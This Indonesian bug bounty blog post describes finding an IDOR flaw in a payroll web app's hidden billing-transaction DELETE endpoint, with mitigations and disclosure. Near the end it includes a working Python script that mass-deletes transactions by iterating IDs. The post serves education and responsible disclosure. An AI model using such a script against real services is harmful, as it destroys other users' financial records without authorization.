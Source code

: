 +++
date = '2025-09-15T14:10:41Z'
draft = false
title = 'How I Found a Critical IDOR That Allowed Deleting All Billing Transactions'
+++
Halo semuanya! Kali ini saya ingin berbagi pengalaman menarik saat melakukan security testing pada beberapa aplikasi web yang berfokus pada free payroll, absenteeism dan employee management.

Bayangkan ini, saya sedang mengeksplorasi sebuah aplikasi web tersebut untuk sekedar pengujian keamanan dan tiba-tiba menemukan sesuatu yang cukup mengejutkan. Sebuah kerentanan Insecure Direct Object Reference (IDOR) yang memungkinkan saya menghapus transaksi billing pengguna lain, tanpa ada otorisasi sama sekali.

Yup, benar-benar semua transaksi.

## Apa itu IDOR? Singkatnya?
Insecure Direct Object Reference (IDOR) adalah celah kontrol akses di mana aplikasi memperbolehkan pengguna mengakses atau memodifikasi objek internal (seperti file, record database, transaksi) langsung, tanpa validasi yang cukup. Dalam kasus ini, jika kamu tahu ID transaksi seseorang, kamu bisa menghapusnya. Tanpa izin. Tanpa ada batasan.

## Menemukan "Pintu Rahasia" Endpoint Tersembunyi
Seperti biasa, saya login ke akun saya, buka **Pengaturan > Billing**. Saya melihat daftar riwayat transaksi, opsi membuat perpanjangan paket baru, tapi tidak ada tombol hapus.

*"Hmmm, mungkin fitur hapus memang sengaja disembunyikan dari user biasa"* pikir saya.

Tapi seorang bug hunter selalu penasaran. Jadi saya lanjut eksplorasi, **Pengaturan > Integrasi > Open API**. Di sana saya menemukan URL dokumentasi API. Awalnya, tidak ada yang menarik sama sekali. Tapi saya tidak menyerah.

![url dokumen api](/images/url_dokumen_api.png)

Setelah beberapa percobaan, akhrinya saya menemukan: ![**https://private.com/docs/hr**](none)

Dan di situlah saya melihat segudang endpoit. Salah satunya langsung bikin saya meneteskan keringat dingin (anjay):

**`DELETE /app/billingTransactions/{id}`**

![endpoint api](/images/dokumen_api.png)

Artinya? Endpoint tersembunyi untuk menghapus transaksi billing, yang tidak pernah muncul di UI.

## Saatnya Menguji: Apakah Endpoint Ini Berfungsi?

Menggunakan Burpsuite Repeater, saya membuat request DELETE sederhana. Response 200 OK. Berhasil. Tapi ini baru bukti endpoint ada, belum bukti IDOR.

Lanjut ke uji coba klasik: **menghapus transaksi milik pengguna lain**.

## Cross The Line: Exploit IDOR

Jadi, saya menyiapkan dua akun:
1. `Attacker:` akun saya
2. `Victim:` akun percobaan pengguna lain

*Note: Sebagai seorang bug hunter yang menjunjung etika dan mematuhi kebijakan program, penyerang hanya diperbolehkan menguji pada akun miliknya sendiri dan tidak boleh menerapkan uji coba ini pada target nyata. Ingat, ada konsekuensi hukum jika melanggar aturan, jadi selalu berhati-hati!*

### Langkahnya sangat sederhana:
1. Buat transaksi di akun victim, catat ID (misal: 4927)
2. Buat transaksi di akun attacker, catat ID (misal: 4928)
3. Ubah request DELETE milik attacker menjadi ID victim, kirim request

Hasilnya? 200 OK dan transaksi milik victim hilang tanpa jejak.

![request delete api](/images/delete_billing.png)

Boom. IDOR berhasil dieksploitasi, data bisa hilang secara diam-diam. Tanpa peringatan.

## Kenapa Ini Berbahaya?

* Pengguna tidak sadar: Mereka tidak tahu fitur hapus ada. Tidak ada laporan.
* Developer blind spot: Endpoint ada tapi UI tidak menampilkannya. Developer mungkin lupa mengamankan.
* Mass deletion: Dengan script sederhana, ribuan transaksi bisa dihapus hanya dengan mengubah ID.
* Kehilangan integritas data: Laporan keuagan, audit semua bisa kacau.

## Rekomendasi Mitigasi

* Validasi otorisasi ketat di semua endpoint, bukan hanya yang terlihat di UI saja
* Gunakan soft delete daripada menghapus data langsung
* Implementasi audit logging

Prinsipnya tetap sama, setiap endpoint yang memproses data baik yang terlihat di UI maupun tidak, harus memiliki validasi otorisasi yang ketat.

## Exploit Code

Saya tidak menjalankan kode ini karena melanggar etika dan aturan program. Kode ini hanya ditampilkan sebagai contoh untuk *mass deletion billing transactions* melalui IDOR, bukan untuk digunakan di sistem nyata.

```python

#!/usr/bin/env python3
# Aithor: 0xrohadi

import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor

# Ignore SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit_idor(session, billing_id):
    url = f"https://private.com/api/v1/app/billingTransactions/{billing_id}"
    headers = {
        "User-Agent": "Exploit IDOR",
        "Authorization": "Bearer <token>",
        "X-App": "hr"
    }
    try:
        response = session.delete(url, headers=headers, verify=False)
        if response.status_code == 200:
            print(f"Success delete billing transaction: {billing_id}")
        else:
            print(f"Billing {billing_id} not found or cannot delete")
    except Exception as e:
        print(f"Error: {e}")

def main():
    max_workers = 10
    try:
        with requests.Session() as session:
            with ThreadPoolExecutor(max_workers=max_workers) as executor:
                executor.map(lambda i: exploit_idor(session, i), range(999))
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

## Pelajaran Penting

Security thorough obscurity is not security. Menyembunyikan endpoint bukanlah pengaman. Anggap semua endpoint bisa ditemukan. Assume every endpoint is exposed. Semua endpoint, UI-visible atau tidak, harus aman.

---

Saya sudah melaporkan kerentanan ini dan perusahaan menanggapinya dengan cepat. Perbaikan telah diterapkan oleh team developernya, dan saya menerima **"bounty"** sebagai bentuk apresiasi, lumayan buat jajan hehe.

Momen seperti ini selalu bikin saya sadar. Dunia bug bounty selalu penuh kejutan, dan kadang bug paling kritis justru tersembunyi di *"hal-hal kecil yang tidak terlihat"*.

Terima kasih sudah membaca! Kalau ada pertanyaan, follow saya di ![X (Twitter)](https://x.com/@0xrohadi) ya.

Have a nice day, enjoy!
